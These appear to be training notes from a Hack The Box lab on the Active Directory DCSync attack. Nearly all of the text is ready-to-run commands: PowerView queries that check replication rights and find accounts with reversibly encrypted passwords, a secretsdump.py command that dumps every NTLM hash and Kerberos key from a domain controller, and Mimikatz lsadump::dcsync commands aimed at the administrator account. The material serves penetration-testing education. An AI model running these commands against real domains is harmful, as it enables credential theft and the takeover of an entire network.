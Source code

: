 # DCSync 
To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

## Using Get-DomainUser to View adunn's Group Membership
```
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

## Using Get-ObjectAcl to Check adunn's Replication Rights
```
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

## Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py
```
COR33@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

## Viewing an Account with Reversible Encryption Password Storage Set
### Enumerating Further using Get-ADUser
```
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Checking for Reversible Encryption Option using Get-DomainUser
```
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

### Using runas.exe
```
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

### Performing the Attack with Mimikatz
```
PS C:\htb> .\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator

```
